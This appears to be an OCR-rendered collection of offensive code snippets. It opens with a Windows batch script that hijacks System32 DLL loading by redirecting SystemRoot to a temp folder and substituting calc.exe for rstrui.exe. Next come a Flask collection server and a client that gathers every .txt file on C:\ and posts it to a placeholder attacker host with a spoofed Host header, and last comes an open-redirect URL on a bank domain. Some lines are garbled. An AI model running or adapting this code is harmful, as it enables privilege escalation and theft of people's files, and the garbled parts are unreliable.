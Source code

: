 # app
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

mkdir %temp%\System32

FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL

set a=C:\Windows\System32\calc.exe

copy %a% %temp%\System32\rstrui.exe /Y > NUL

set SystemRoot=%temp%

start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}


leugai8eephei0ot1quaMai4Yea"C^ee

iet4yi3Einae|x3L
=----

import os, flask

app = flask.Flask(__name__)

@app.route('/receive', methods=['POST'])
def receive():
    data = flask.request.data
    with open(os.path.join('received_txt_files', flask.request.remote_addr + '.txt'), 'wb') as f:
        f.write(data)
    return 'File received.'

if name == '__main__':
    app.run()
  
  
  -----
  
  
  import os, requests

root_directory = 'C:\\'
txt_files = []
for root, dirs, files in os.walk(root_directory):
    for file in files:
        if file.endswith('.txt'):
            txt_files.append(os.path.join(root, file))

for txt_file in txt_files:
    with open(txt_file, 'rb') as f:
        data = f.read()
    requests.post('http://your-server.com/receive', data=data, headers={'Host': 'reg.ru'})

------
https://hr.sberbank.ru/auth/realms/PAOSberbank/protocol/openid-connect/logout?post_logout_redirect_uri=http://2ip.ru/
